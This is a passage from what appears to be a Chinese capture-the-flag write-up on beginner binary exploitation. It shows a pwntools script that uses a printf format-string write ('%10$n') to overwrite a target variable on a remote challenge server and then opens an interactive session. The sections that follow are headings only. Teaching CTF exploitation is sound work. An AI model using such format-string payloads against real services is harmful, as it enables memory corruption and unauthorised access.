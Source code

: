 2. 利用printf函数查出输入字符的偏移为10

**exp**

%n可以%n 之前打印出来的字符 个数，赋值给一个变量，%10$n将之前打印字符个数放进指定的偏移10的地方（pwnme地址加四个a正好为8）

```python
from pwn import *
p = remote('111.198.29.45', 36275)
pwnme_addr = 0x804A068           
p.sendlineafter("name:\n",'aaa')
payload = p32(pwnme_addr)+'aaaa'+'%10$n'     
p.sendlineafter("please:\n",payload)
p.interactive()
```

3. 执行结果

![](截图\20.3.png)

### 5.get_shell

![](截图\21.1.png)

### 6.guess_num
